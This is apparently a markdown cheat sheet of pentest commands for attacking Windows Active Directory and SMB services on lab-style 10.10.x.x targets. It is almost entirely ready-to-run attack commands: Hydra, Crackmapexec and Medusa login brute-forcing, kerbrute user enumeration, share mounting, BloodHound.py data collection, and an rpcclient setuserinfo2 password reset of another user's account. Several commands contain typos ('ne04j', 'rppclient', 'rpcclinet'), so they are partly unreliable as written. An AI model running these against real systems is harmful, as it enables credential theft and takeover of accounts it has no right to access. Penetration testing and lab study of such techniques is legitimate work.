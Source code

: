 ### SMB Bruteforce

- Crackmapexec
- Hydra
- Medusa


#### Hydra
```bash
# bruteforcing smb login
hydra -L users.txt -P pass.txt 10.10.*.* smb
```

#### Crackmapexec
```bash
# bruteforcing smb login, enumerating the available shares with --shares option
crackmapexec smb 10.10.*.* -u user.txt -p pass.txt --shares --continue-on-success

# bruteforcing winrm login
crackmapexec winrm 10.10.*.* -u users.txt -p pass.txt --continue-on-success 

```

#### Medusa
```bash
# bruteforcing smb login
medusa -h 10.10.*.* -U users.txt -P pass.txt -M smbnt 
```

### User Enumeration

- kerbrute

```bash
# enumerate AD users with kerbrute
kerbrute userenum --dc 10.10.*.* -d domain users.txt
```

### Mount 

```bash
# mount an anonymous login share
mount -t cifs '//10.10.*.*/ShareName' /mOuNt_Location

# mount an authenticated smb share
mount -t cifs -o 'username=UserName,password=Password' '//10.10.*.*/ShareName' /mOuNt_Location
```

### BloodHound

#### On Windows

```bash
# setup
git clone https://github.com/fox-it/BloodHound.py; cd BloodHound.py; python3 setup.py install

# Running bloodhound.py
python3 bloodhound.py -u userName -p 'PASSWORD' -ns machineIP -d domain.local -c all 

# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
# mark the obtained user as owned user and the target user as high value target
```

### Reset AD users passowrd with rppclient

```bash
# login to rpcclinet
rppclient -U userName machineIP
# password for the user we have access to

rpcclinet $> setuserinfo2 {userToChange} 23 '{PasswordToChange}'
```